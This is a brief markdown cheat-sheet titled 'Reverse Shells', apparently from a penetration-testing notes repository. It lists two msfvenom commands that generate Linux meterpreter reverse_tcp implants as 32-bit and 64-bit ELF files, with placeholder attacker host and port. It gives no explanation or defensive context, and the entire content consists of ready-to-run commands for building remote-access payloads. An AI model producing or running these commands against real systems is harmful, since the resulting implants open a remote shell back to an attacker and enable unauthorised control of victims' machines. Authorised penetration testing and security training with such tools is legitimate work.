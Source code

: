 # Reverse Shells

x86 (32-bit) payload.

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o implant-x86
```

x86-64 (64-bit) payload.

```
$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o implant-x64
```